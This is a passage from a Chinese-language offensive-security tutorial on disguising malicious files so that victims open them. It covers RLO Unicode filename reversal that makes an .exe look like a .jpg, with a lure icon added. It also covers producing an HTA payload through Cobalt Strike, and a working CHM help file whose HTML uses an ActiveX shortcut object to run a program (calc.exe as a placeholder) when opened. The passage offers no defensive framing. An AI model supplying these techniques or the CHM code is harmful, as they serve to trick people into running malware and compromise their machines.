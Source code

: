 

#### 1.2 文件名反转

RLO，即Right-to-Left Override，我们可以在⽂件名中插⼊此类unicode字符，来达到⽂件名反转的效果。

以 `cmd.exe` 来举例，

将其重命名为 `cmdgpj.exe` ,然后在 cmd 与 g 之间右键，看图操作

[![slYhGj.md.png](https://s3.ax1x.com/2021/01/10/slYhGj.md.png)](https://imgchr.com/i/slYhGj)

 

ok，此时已经变成了 以 jpg 结尾的了。但是双击运行还是 exe 格式运行的。

[![slYoMq.png](https://s3.ax1x.com/2021/01/10/slYoMq.png)](https://imgchr.com/i/slYoMq)

再利用 `ResourceHacker` 修改图标。

找个小姐姐图片转换为 ico 格式。

```
http://www.bitbug.net/
```

[![slthTO.png](https://s3.ax1x.com/2021/01/10/slthTO.png)](https://imgchr.com/i/slthTO)

如图，双击实际上还是运行的cmd。

#### 1.3 HTA

HTA是HTML Application的缩写，直接将HTML保存成HTA的格式，是一个独立的应用软件，本身就是html应用程序，双击就能运行，却比普通网页权限大得多，它具有桌面程序的所有权限。

制作：利用 cs

 attacks——>packages——>HTML application

选择powershell 生成。

#### 1.4 CHM

CHM（Compiled Help Manual）即“已编译的帮助文件”。它是微软新一代的帮助文件格式，利用HTML作源文，把帮助内容以类似数据库的形式编译储存。

制作CHM需要用到一个工具 [EasyCHM](http://www.etextwizard.com/)

**CHM制作过程：**
 创建一个文件夹（名字随意），在文件夹里面再创建两个文件夹（名字随意）和一个index.html文件，在两个文件夹内部创建各创建一个index.html文件。

[![slauO1.md.png](https://s3.ax1x.com/2021/01/10/slauO1.md.png)](https://imgchr.com/i/slauO1)

将下列代码放入 `index.html`:

```html
<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
command exec
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=',calc.exe'>
 <PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```
